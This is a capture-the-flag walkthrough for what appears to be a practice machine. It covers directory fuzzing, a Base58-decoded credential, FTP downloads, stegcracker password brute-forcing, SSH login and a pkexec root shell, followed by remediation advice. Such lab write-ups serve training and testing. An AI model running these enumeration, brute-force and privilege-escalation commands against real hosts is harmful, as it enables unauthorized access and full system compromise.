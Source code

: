 
**Scope / Objective**  
Document the steps taken to discover files, retrieve credentials, and escalate privileges on the target host (IP redacted in places). This is written as a reproducible playbook: commands executed, why they were run, outputs of interest, and remediation suggestions.

---

## Environment / prerequisites

- Attacking machine with standard recon and pentest utilities installed (examples used below): `gobuster`, `curl`, `ftp`, `ssh`, `unzip`, `stegcracker`.
    
- Wordlists located at `/usr/share/seclists/` (common on Kali / Parrot / similar).
    
- Target: `http://0.0.0.0/` (replace with real target IP when reproducing). In examples some commands target `http://10.201.111.228/island/2100/` — use whichever target IP/URL you have.
    

---

## Quick TL;DR

1. Used `gobuster` directory fuzzing to enumerate web directories and files.
    
2. Found the string `vigilante` in source code and discovered files with `.ticket` extension under a numeric path.
    
3. Extracted an encoded token (`RTy8yhBQdscX`) and decoded from Base58 (CyberChef used interactively).
    
4. Discovered credentials, connected to FTP, downloaded files including `aa.jpg` and `ss.zip`.
    
5. Used `stegcracker` + `rockyou.txt` to brute-force a password hidden in `aa.jpg`.
    
6. Extracted the zip (password `password`), retrieved further data including a password for user `slade`.
    
7. SSH to `slade@<target>` and captured `user.txt`.
    
8. Used `pkexec` misconfiguration to get a root shell and captured `root.txt`.
    

---

## Full reproducible steps

### 1) Directory discovery with Gobuster

Scan the root webserver for directories and file names using a medium-sized directory wordlist:

```bash
gobuster dir -u http://0.0.0.0/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Notes: replace `0.0.0.0` with the target IP or hostname. `gobuster dir` will reveal accessible directories and file names.

### 2) Additional discovery (code / fuzzing)

Using shorter wordlists for specific discovery (example found the token `vigilante`):

```bash
gobuster dir -u http://0.0.0.0/ -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt
```

If you find hints in source code or pages (like a keyword `vigilante`), follow links or try deeper paths based on those hints.

### 3) Finding `.ticket` files and numeric directories

A discovered path used a 4-digit directory (example): `/island/2100/`. Look for extensions and try `-x` to brute-force extensions with Gobuster:

```bash
gobuster dir -u http://10.201.111.228/island/2100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

This returned a file (or content) containing the string:

```
RTy8yhBQdscX
```

### 4) Decode token (Base58)

The token above appears Base58-encoded. You can decode it with CyberChef, or using a command-line tool / script. Example (CyberChef):

- Recipe: `From Base` → `Base58`.
    

If you'd like a CLI alternative, use a small Python snippet (on your machine):

```python
# python3 -c 'import base58,sys; print(base58.b58decode("RTy8yhBQdscX").decode())'
```

(Install `base58` via pip if needed: `pip install base58`.)

### 5) Connect to FTP and list files

Use the discovered credentials (or anonymous if available) to connect to FTP and fetch files:

```bash
ftp 0.0.0.0
# then use `ls`, `cd` and `get` to download files
# example:
get aa.jpg
get ss.zip
```

### 6) Steganography — brute forcing hidden password in `aa.jpg`

Use `stegcracker` with a wordlist (commonly `rockyou.txt`) to find passwords embedded in the image:

```bash
stegcracker aa.jpg /usr/share/wordlists/rockyou.txt
```

This produced the password: `password`.

### 7) Unzip `ss.zip` with discovered password

```bash
unzip ss.zip
# enter password: password
```

Inspect the extracted files for credentials or other useful artifacts.

### 8) Determine username and obtain SSH access

From files found in the zip (or other artifacts), a username was discovered (`slade`). Connect with SSH:

```bash
ssh slade@0.0.0.0
# use discovered password
```

Once in, capture the user flag (`user.txt`) and enumerate the host for privilege escalation possibilities.

### 9) Privilege escalation via `pkexec`

A vulnerable/misconfigured `pkexec` allowed spawning a root shell:

```bash
sudo /usr/bin/pkexec /bin/sh
# or: pkexec /bin/sh
```

If `pkexec` runs without proper authorization checks, you may obtain a root shell. Capture `root.txt`.

---

## Artifacts & key values (from this run)

- Encoded token: `RTy8yhBQdscX` (Base58 -> decoded value used as a credential)
    
- Steg password (for `aa.jpg`): `password`
    
- Username discovered: `slade`
    
- Flags obtained: `user.txt`, `root.txt`
    

> **Note:** Replace `0.0.0.0` with the actual target IP in reproduction.

---

## Suggestions for remediation (owner / dev notes)

1. **Remove sensitive tokens from public web content / source** — tokens such as the Base58 string should not be left in source code or accessible files.
    
2. **Harden FTP** — do not allow anonymous downloads of archives containing credentials. Use secure file transfer (SFTP) and remove credentials from stored files.
    
3. **Avoid storing secrets in images / archives** — or protect them with proper access controls.
    
4. **Fix PKEXEC misconfiguration** — ensure `pkexec` and polkit rules are up-to-date and properly restrict which commands non-root users can execute; patch known CVEs and follow least privilege.
    
5. **Rotate credentials** discovered during the test and enforce strong password policies.
    

---

## Reproduction checklist (for testers)

-  Target IP/URL set in all commands.
    
-  Wordlists available at `/usr/share/seclists/`.
    
-  Tools installed: `gobuster`, `stegcracker`, `ftp`, `ssh`, `unzip`, Python + `base58` (optional).
    

---

## Appendix: Useful one-liners

- Decode Base58 (Python):
    

```bash
python3 -c 'import base58;print(base58.b58decode("RTy8yhBQdscX"))'
```

- Download files over FTP non-interactively (example):
    

```bash
curl -O ftp://username:password@0.0.0.0/path/to/file
```

---
